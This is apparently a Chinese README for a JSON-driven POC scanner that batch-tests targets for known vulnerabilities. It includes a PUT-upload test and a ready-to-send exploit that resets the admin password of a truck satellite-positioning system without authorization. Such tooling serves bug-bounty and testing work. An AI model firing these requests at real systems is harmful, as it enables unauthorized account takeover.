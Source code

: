 ## ANG's Not Goby!



## 史上POC最简洁的漏洞复现工具（狗头保命）

独自开发的一款poc扫描、漏洞复现的工具，后续会去兼容goby以及其他工具的poc，**并且加入浏览器爬虫以及被动扫描功能，将来会陆续开发GUI版和BurpSuite插件版，目前处于测试版本**，这款工具的poc编写可能算是比较简洁明了的工具了，可执行文件报错就使用ang.py或者test.py，由于近期工作较忙，其他功能后续会开发
先看效果（可以用来批量挖SRC）
<img src="img\12.png">

<img src="img\0.png">

使用的是JSON格式的POC，放在poc目录下面即可，代理可以用BurpSuite的代理，内容基本上是请求包内容，没有额外的东西，比较纯净

以下是模板poc

```
{
	#	漏洞名称
    "name": "",
    #	请求模式（目前支持get post put，但是还没验证过get，只用了post和put）
    "method": "",
    #	poc编写时间（不重要）
    "time": "",
    #	GET请求路径
    "path": "",
    #	可以设置梯子或者其他代理，默认使用burpsuite代理
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
     #	无需多言，请求头
    "headers": {
    },
    #	post以及put请求的data
    "data": "",
    #	用于检查是否存在漏洞
    "check": {
    	#	状态码
        "code":"200",
        #	返回包值的个数，不需要全写上，和下面的value个数对应上就ok
        "value_num": "0",
        #	返回包内容，例如true、200
        "value1":""
    }
}
```



```json
{
    "name": "PUT上传",
    "method": "PUT",
    "time": "2025/03/11",
    "path": "/test.txt",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Length": "4",
        "Connection": "keep-alive"
    },
    "data": "test",
    "check": {
        "code":"200",
        "value_num": "0",
        "value1":""
    }
}
```

```json
{
    "name": "卡车卫星定位系统create存在未授权密码重置漏洞",
    "method": "POST",
    "time": "2025/03/07",
    "path": "/user/create",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "fieldContent-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    },
    "data": {
        "account": "admin",
        "id": "1",
        "password": "test123456",
        "passwordRepeat": "test123456",
        "groupName": "111",
        "roleid": "5",
        "validend": "",
        "phone": "",
        "email": "",
        "chncount": "36",
        "flowType": "1",
        "oldFlowType": "",
        "flowVal": "",
        "flowAlarmVal": "",
        "oldFlowAlarmVal": "",
        "logContent": "111",
        "guid": "222",
        "token": "xxx"
    },
    "check": {
        "code":"200",
        "value_num": "1",
        "value1":"true"
    }
}
```

以下是基础的使用方法，os功能还在开发ing

<img src="img/1.png">

### scan 模块，-U是批量扫描，指定一个TXT文件

<img src="img\2.png">

-u 是指定一个目标进行扫描

<img src="img\3.png">

### download 模块

用于下载文件（目前支持http/https代理）

<img src="img/4.png">

用于下载文件，可以配合其他脚本爬取资源

<img src="img/5.png">

